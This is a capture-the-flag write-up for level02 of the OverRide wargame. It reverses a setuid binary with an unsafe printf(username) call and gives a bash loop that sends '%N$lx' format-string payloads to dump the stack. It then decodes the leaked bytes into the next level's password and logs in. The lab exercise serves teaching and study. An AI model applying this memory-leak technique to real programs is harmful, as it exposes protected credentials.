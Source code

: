 # LEVEL02 - FORMAT STRING EXPLOITATION 1 - READ MEMORY

We have a binary named level02 at /home/users/level02/

It is owned by `level03` and has a `setuid bit`

The program first define some buffers and variables
```c
int main(void)
{
	char password[96];
	char ptr[48];
	char username[96];
	int passwordSize;
	FILE *stream;
```

And initialize them with zeroes
```c
memset(username, 0, sizeof(username));
memset(ptr, 0, 41);
memset(password, 0, sizeof(password));
stream = 0;
passwordSize = 0;
```

Then the program tries to open the file `/home/users/level03/.pass` to read it and compare the number of characters read to `41`

This is likely a `gdb` protection to prevent users from reversing the binary since the `setuid bit` is not effective in `gdb` and thus, we have not the read rights on this file
```c
stream = fopen("/home/users/level03/.pass", "r");
if ( !stream )
{
	fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
	exit(1);
}

passwordSize = fread(ptr, 1, 41, stream);
ptr[strcspn(ptr, "\n")] = 0;
if ( passwordSize != 41 )
{
	fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
	fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
	exit(1);
}
fclose(stream);
```

Then it prints some lines and prompts for a `username` and a `password`
```c
puts("===== [ Secure Access System v1.0 ] =====");
puts("/***************************************\\");
puts("| You must login to access this system. |");
puts("\\**************************************/");

printf("--[ Username: ");
fgets(username, 100, stdin);
username[strcspn(username, "\n")] = 0;

printf("--[ Password: ");
fgets(password, 100, stdin);
password[strcspn(password, "\n")] = 0;
	
puts("*****************************************");
```

We can see that we overflow only 4 bytes in each buffer which means we can't overwrite the return address of main like in level01
```c
char password[96];
char username[96];

fgets(username, 100, stdin);
fgets(password, 100, stdin);
```

The program then compares the `password` typed by the user and the content of the file it has read

If both are not equal we exit the program, else we launch `system("/bin/sh")`
```c
	if (strncmp(ptr, password, 41))
	{
		printf(username);
		puts(" does not have access!");
		exit(1);
	}
	printf("Greetings, %s!\n", username);
	system("/bin/sh");
	return 0;
}
```

And here we can observe that the `username` is passed directly to printf without any form of parsing which means this program is vulnerable to Format String Exploitation
```c
printf(username);
```

We can also see that the content of the file that we need (`/home/users/level03/.pass`) is actually loaded into the memory since it was opened and read from, we can use `%x` or `%lx` directly inside the username to get a dump of the program's stack

Here is a little bash loop that will gracefully display the dump
```bash
#!/bin/bash
for i in $(seq 1 $1); do
	echo "$i:	$(echo -n "a %$i\$lx" | /home/users/level02/level02 | sed -n '6p' | cut -d' ' -f2)"
done
```

We know that the password is 41 bytes long  (including `\0`), every bytes is a printable character and all ascii printable characters are between 21(hex) and 7e(hex) so we can already cleanup the dump
```
22:     756e505234376848
23:     45414a3561733951
24:     377a7143574e6758
25:     354a35686e475873
26:     48336750664b394d
```

We are left with a 40 consecutive displayable bytes which we invert back to big endian
```
4868373452506e75
51397361354a4145
58674e5743717a37
7358476e68354a35
4d394b6650673348
```

Then we traduce to ASCII
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try the flag
```
ssh -p 42421 level03@$WINIP
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 10.0.2.15:4242
level03@172.29.64.1's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```